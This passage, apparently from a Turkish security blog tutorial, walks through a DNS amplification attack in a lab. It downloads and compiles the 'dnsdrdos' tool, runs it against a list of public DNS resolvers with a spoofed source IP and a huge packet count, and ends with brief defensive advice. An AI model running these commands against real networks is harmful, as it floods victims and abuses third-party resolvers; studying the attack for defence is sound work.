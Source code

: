 Resim 6’da herkese açık DNS çözümleyicileri yer almaktadır. Böylece, saldırgan oluşturacağı zararlı bir istek ile Resim6’da yer alan DNS çözümleyicilerine istekte bulunabilir. Resim 6’da, ülkelere göre yapılan filtreleme sonucunda herkese açık DNS çözümleyicileri yer almaktadır. Resim7’de DNS çözümleyicisine istekte bulunmak için derlenmiş olan bir C kodu yer almaktadır.

```linux
root@Stormer:~# wget https://raw.githubusercontent.com/nullsecuritynet/tools/master/dos/dnsdrdos/release/dnsdrdos.c
..
..
root@Stormer:~# gcc dnsdrdos.c -o dnsdrdos -Wall -ansi
```
<br/>

Yukarıda, “wget” komutu kullanılarak DNS çözümleyicisine istekte bulunmak için kullanılacak olan “dnsdrdos.c” dosyası indirildi. “gcc” programı ile kod parçası derlendikten sonra çalıştırılmaya hazır hale getirildi. Resim7’de herkese açık DNS çözümleyicilerinden 6 tanesi gösterilmektedir.

| ![atgr7]({{ site.url }}/assets/img/DNSAmplification/resim7.png){: style="display: block; margin-left: auto; margin-right: auto; width: 100% "} |
|:--:|
| *Resim7 : Herkese açık birkaç DNS çözümleyicisi* |

<br/>

Resim7’de, 6 tane DNS çözümleyicisinin IP adresleri publicDns.txt dosyası içerisinde bulunmaktadır. Böylece yapılan DNS istekleri, publicDns.txt dosyası içerisindeki DNS çözümleyicilerine gönderilir. 

```linux
root@Stormer:~# ./dnsdrdos -f publicDns.txt -s 192.168.30.1 -l 100000000000
```
<br/>

**–f** parametresi ile herkesin erişimine açık olan birkaç DNS çözümleyicisinin IP adresinin olduğu dosya belirtildi. –s parametresi ile ise DNS çözümleyicilerine gönderilecek istek üzerinde kaynak IP manipülasyonu yapılarak 192.168.30.1 IP adresi kaynak IP adresi olarak belirtildi. -l parametresi ile gönderilecek paket sayısı belirtildi.

 Hedef makine üzerinden ağ trafiğinin izlenmesi sonucunda elde edilen DNS çözümleyicileri yanıtları Resim 8’de yer almaktadır.

| ![atgr8]({{ site.url }}/assets/img/DNSAmplification/resim8.png){: style="display: block; margin-left: auto; margin-right: auto; width: 100% "} |
|:--:|
| *Resim8 : Saldırı esnasında hedef makine üzerinden ağın izlenmesi* |

<br/>

Resim8’de Wireshark aracı kullanılarak ağ trafiğinin izlenmesi sonucunda yakalanan istekler yer almaktadır. Hedef makine üzerinden DNS çözümleyicilerine herhangi bir istek yapılmadığı halde, hedef makinenin IP adresi kullanılarak, DNS çözümleyicilerine 70 bayt boyutunda paketler gönderildi. Böylece hedef sisteme yönelik DNS Amplification saldırısı yapıldığı doğrulandı.

## DNS Amplification Saldırısına Karşı Nasıl Savunulur?

DNS Amplification saldırısı hedef sistemin trafiğini yavaşlatmaya, hatta durdurmaya yönelik bir DoS saldırısı olarak sonuçlansa bile, DoS-DDoS saldırılarına karşı alınan bazı önlemler DNS Amplification saldırılarına karşı bir çözüm olmayabilir. Örnek olarak, kaynak IP adresinin engellenmesi verilebilir. DNS Amplification saldırısı, herkese açık DNS çözümleyicileri ile gerçekleştirilirse, kaynak IP adresinin engellenmesi durumunda saldırıyı gerçekleştiremeyen bir kullanıcının hedef sisteme yapmış olduğu istek hakkı engellenebilir. Bundan dolayı gelen paket içeriği filtrelenmelidir. Ayrıca açık DNS çözümleyicilerinin sayısı azaltılabilir.
